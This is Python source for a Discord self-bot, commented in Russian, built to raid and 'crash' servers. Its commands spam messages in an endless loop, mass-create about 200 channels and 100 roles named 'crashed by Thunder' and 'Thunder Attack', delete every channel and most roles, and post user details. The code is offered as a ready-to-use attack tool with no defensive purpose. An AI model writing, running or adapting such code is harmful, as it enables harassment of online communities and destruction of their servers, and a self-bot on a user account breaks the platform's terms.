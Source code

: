 import discord
from discord.ext import commands

client = commands.Bot(command_prefix = '!', self_bot = True)
client.remove_command('help')
spam_message = 'you spam message' #enter you spam text

@client.event
async def on_ready():
    print('All work')


@client.command()
async def s(ctx, *, text):
    await ctx.message.delete()
    await ctx.send(embed = discord.Embed(description = text))

@client.command()
async def spam(ctx):
    while True:
        await ctx.send(spam_message)

@client.command()
async def channels(ctx):
    for i in range(1,100):
        await ctx.guild.create_text_channel('crashed by Thunder')
    for i in range(1,100):
        await ctx.guild.create_voice_channel('Crashed By Thunder')

@client.command()
async def channel(ctx):
    for channel in ctx.guild.channels:
        await channel.delete()

@client.command()
async def role(ctx):
    roles = ctx.guild.roles
    roles.pop(0)

    for role in roles:
        if ctx.guild.me.roles[-1] > role:
            await role.delete()

@client.command()
async def roles(ctx):
    for i in range(1,100):
        await ctx.guild.create_role(name = 'Thunder Attack')
        role = discord.utils.get(ctx.guild.roles, name = "Thunder Attack")



@client.command()
async def help(ctx):
    embed = discord.Embed(
        title = 'Команды',
        description = '''**Спам команды**\!s - сказать что нибудь от лица бота.\!spam - начать массовый спам.\n**Краш команды**\!channels - спам каналами.\!channel - удалить каналы.\!roles - спам ролями.\!role - удалить роли.\n**Информация**\!info - информация о юзере.\n[**🔗Support Server**](https://discord.gg/fNua9JpcJg)\n[Made wotch by GitHub: https://github.com/Thunder/](https://github.com/Thunder126/-#-)''',
    )
    embed.set_image(url='https://cdn.discordapp.com/attachments/820182533861408799/823601330492538880/180px-D092D181D0B5D180D0BED181D181D0B8D0B9D181D0BAD0B0D18F_D184D0B0D188D0B8D181D182D181D0BAD0B0D18F_.png') #image for embed
    await ctx.send(embed=embed)

@client.command()
async def avatar(ctx):
    await ctx.send(member.avatar_url)

@client.command()
async def info(ctx,member:discord.Member = None, guild: discord.Guild = None):
    await ctx.message.delete()
    if member == None:
        emb = discord.Embed(title="Информация о пользователе", color=ctx.message.author.color)
        emb.add_field(name="Имя:", value=ctx.message.author.display_name,inline=False)
        emb.add_field(name="Айди пользователя:", value=ctx.message.author.id,inline=False)
        t = ctx.message.author.status
        if t == discord.Status.online:
            d = " В сети"

        t = ctx.message.author.status
        if t == discord.Status.offline:
            d = "⚪ Не в сети"

        t = ctx.message.author.status
        if t == discord.Status.idle:
            d = " Не активен"

        t = ctx.message.author.status
        if t == discord.Status.dnd:
            d = " Не беспокоить"

        emb.add_field(name="Активность:", value=d,inline=False)
        emb.add_field(name="Статус:", value=ctx.message.author.activity,inline=False)
        emb.add_field(name="Роль на сервере:", value=f"{ctx.message.author.top_role.mention}",inline=False)
        emb.add_field(name="Акаунт был создан:", value=ctx.message.author.created_at.strftime("%a, %#d %B %Y, %I:%M %p UTC"),inline=False)
        emb.set_thumbnail(url=ctx.message.author.avatar_url)
        await ctx.send(embed = emb)
    else:
        emb = discord.Embed(title="Информация о пользователе", color=member.color)
        emb.add_field(name="Имя:", value=member.display_name,inline=False)
        emb.add_field(name="Айди пользователя:", value=member.id,inline=False)
        t = member.status
        if t == discord.Status.online:
            d = " В сети"

        t = member.status
        if t == discord.Status.offline:
            d = "⚪ Не в сети"

        t = member.status
        if t == discord.Status.idle:
            d = " Не активен"

        t = member.status
        if t == discord.Status.dnd:
            d = " Не беспокоить"
        emb.add_field(name="Активность:", value=d,inline=False)
        emb.add_field(name="Статус:", value=member.activity,inline=False)
        emb.add_field(name="Роль на сервере:", value=f"{member.top_role.mention}",inline=False)
        emb.add_field(name="Акаунт был создан:", value=member.created_at.strftime("%a, %#d %B %Y, %I:%M %p UTC"),inline=False)
        await ctx.send(embed = emb)
